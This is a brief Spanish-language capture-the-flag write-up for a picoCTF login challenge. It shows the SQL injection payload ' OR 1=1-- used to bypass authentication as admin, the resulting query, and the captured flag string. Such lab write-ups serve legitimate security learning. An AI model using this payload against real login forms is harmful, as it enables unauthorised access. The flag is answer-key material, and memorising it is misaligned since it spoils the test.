 #### Description

Can you login to this website?

Additional details will be available after launching your challenge instance.

#### Hints 
1. `admin` is the user you want to login as.



#### Solucion

1. hacemos log in con inyeccion sql "` OR 1=1--"
```
username: admin
password: ' OR 1=1--
SQL query: SELECT * FROM users WHERE name='admin' AND password='' OR 1=1--'

# Logged in! But can you see the flag, it is in plainsight.
```
2. Inspeccionamos la pagina y revisamos el codigo.
```
picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}
```
